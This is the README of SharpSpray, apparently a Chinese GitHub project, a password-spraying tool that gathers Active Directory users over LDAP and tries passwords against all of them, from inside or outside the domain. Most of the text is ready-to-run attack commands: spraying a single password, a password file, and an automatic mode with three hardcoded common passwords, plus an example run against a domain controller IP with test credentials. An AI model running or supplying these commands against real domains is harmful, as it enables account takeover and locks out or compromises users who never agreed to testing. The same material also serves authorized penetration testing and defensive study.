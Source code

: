 # SharpSpray

这是一个域内的密码喷射攻击工具，能通过ldap收集用户名，并根据密码设置策略进行自动域内的密码喷射攻击。SharpSpray是对SharpHose项目进行改造实现的，解决了原项目中无法在域外爆破、无法进行批量密码爆破等问题，并内置了三个域内高频率口令。

## feature

* 通过LDAP自动查找用户来进行喷射

* 根据密码策略自动喷射
* 多线程喷射，速度较快
* 能在域外对域控进行喷射

## Usage

```
Examples:
Domain Joined Spray: SharpSpray.exe --action SPRAY_USERS --spraypassword Aa123456789.
Domain Joined Spray w/ Exclusions: SharpSpray.exe --action SPRAY_USERS --auto
Domain Joined Spray w/ Exclusions: SharpSpray.exe --action SPRAY_USERS --passfile c:\test.txt
Non-Domain Joined Spray: SharpSpray.exe  --dc-ip 172.16.178.9 --domain windows.local --username test --password Aa123456789. --action SPRAY_USERS --spraypassword Aa123456789.
Domain Joined Show Policies: SharpSpray.exe --action GET_POLICIES
Domain Joined Show Policy Users: SharpSpray.exe --action GET_POLICY_USERS --policy windows
Domain Joined Show All Users: SharpSpray.exe --action GET_ENABLED_USERS
```

### 策略发现

在使用之前可以先通过GET_POLICIES来获取当前密码策略和域内总用户数，避免用户数目过大导致服务器崩溃。

`SharpSpray.exe --action GET_POLICIES`

![image-20220317144358574](/Users/windows7/Documents/README/image-20220317144358574.png)

### 密码喷射攻击（三种喷射模式）

`SharpSpray.exe --action SPRAY_USERS --spraypassword Aa123456789.`只爆破一个用户

`SharpSpray.exe --action SPRAY_USERS --auto` 此命令会自动爆破域内所有用户的1234qwer!@#$、1qaz@WSX1qaz、QAZwsxEDC这三个高频密码。

`SharpSpray.exe --action SPRAY_USERS --passfile c:\test.txt`爆破一个密码本

![image-20220317144519539](/Users/windows7/Documents/README/image-20220317144519539.png)

### 域外对域控进行密码喷射攻击

`SharpSpray.exe  --dc-ip 172.16.178.9 --domain windows.local --username test --password Aa123456789. --action SPRAY_USERS --spraypassword Aa123456789.`

